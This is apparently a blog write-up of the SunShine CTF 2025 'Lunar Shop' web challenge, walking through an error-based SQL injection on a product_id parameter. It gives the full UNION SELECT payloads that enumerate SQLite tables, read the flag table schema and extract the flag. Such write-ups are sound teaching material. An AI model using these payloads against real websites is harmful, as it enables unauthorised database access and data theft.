 +++
date = '2025-10-06T17:50:57+07:00'
title = 'SunShine CTF 2025 - Lunar Shop Write-up'
tags = ['SunShine CTF 2025', 'CTFs']
description = 'We have amazing new products for our gaming service! Unfortunately we dont sell our unreleased flag product yet !'
draft = false

[cover]
  image = '/images/posts/sunshinectf.png'
  alt = 'SunShine CTF 2025 - Lunar Shop'
  caption = 'SunShine CTF 2025 - Lunar Shop'
  relative = false
+++

> **Room / Challenge:** Lunar Shop (Web)

---

## Metadata

-   **Author:** `jameskaois`
-   **CTF:** SunShine CTF 2025
-   **Challenge:** Lunar Shop (web)
-   **Target / URL:** `https://meteor.sunshinectf.games`
-   **Difficulty:** `Easy`
-   **Points:** `10`
-   **Date:** `30-09-2025`

---

## Goal

We have to get the flag by using a vulnerability in the query of product id.

## My Solution

There are just 3 routes we can gather information in this website: `/`, `/products`, `/product?product_id`.

Home page:
![Guide image](/images/posts/lunar-shop-1.png)

Products page:
![Guide image](/images/posts/lunar-shop-2.png)

Product item details page:
![Guide image](/images/posts/lunar-shop-3.png)

There are just 3 visible products, we can try give different `product_id`.

Initially, I think that the flag is in other invisible `product_id`. However, there are just 10 products from id 1 -> 10.

So I think of another solution, which is **SQL Injection**. Firstly I test with this url: `https://meteor.sunshinectf.games/product?product_id=-1%20UNION%20SELECT%20%27A%27,%20%27B%27,%20%27C%27,%20%27sun{FLAG}%27%20--`

![Guide image](/images/posts/lunar-shop-4.png)

Try `https://meteor.sunshinectf.games/product?product_id=-1%20UNION%20SELECT%201,%202,%203,%20group_concat(table_name)%20FROM%20information_schema.tables%20WHERE%20table_schema=DATABASE()` to find the tables in the database.

However, I receive this error:

```
[ Error occured. --> no such table: information_schema.tables ]
```

This message indicate that the database is **SQLite**.

Try `https://meteor.sunshinectf.games/product?product_id=-1%20UNION%20SELECT%201,%202,%203,%20group_concat(tbl_name)%20FROM%20sqlite_master%20WHERE%20type='table'%20--`. Receive:

```
products,sqlite_sequence,flag
```

Get table structure: `https://meteor.sunshinectf.games/product?product_id=-1%20UNION%20SELECT%201,%202,%203,%20sql%20FROM%20sqlite_master%20WHERE%20type='table'%20AND%20tbl_name='flag'%20--`
Receive:

```
CREATE TABLE flag ( id INTEGER PRIMARY KEY AUTOINCREMENT, flag TEXT NOT NULL UNIQUE )
```

Final query to get the flag: `https://meteor.sunshinectf.games/product?product_id=-1%20UNION%20SELECT%201,%202,%203,%20flag%20FROM%20flag%20--`. Receive:

![Guide image](/images/posts/lunar-shop-5.png)

```
sun{baby_SQL_injection_this_is_known_as_error_based_SQL_injection_8767289082762892}
```
